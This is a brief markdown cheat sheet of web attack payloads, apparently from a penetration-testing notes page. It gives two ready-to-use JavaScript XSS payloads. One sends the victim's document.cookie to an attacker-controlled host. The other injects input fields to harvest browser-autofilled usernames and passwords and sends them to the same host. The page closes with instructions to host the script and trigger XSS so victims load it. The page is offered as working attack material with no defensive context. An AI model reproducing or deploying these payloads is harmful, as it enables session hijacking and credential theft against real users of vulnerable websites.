 ```yaml
---
title: Web Payloads
published: true
---
```


Cookie Stealer:

```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://<LHOST-IP>/exfil?data=" + encodedCookie)
```

Steal Saved Passwords:

```js
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";
body.append(u)
body.append(p)

setTimeout(function(){ 
fetch("http://<LHOST-IP>/k?u=" + u.value + "&p=" + p.value)
}, 5000);
```

Host these files as a .js file, and try to trigger XSS to have the victim reach out and load the js.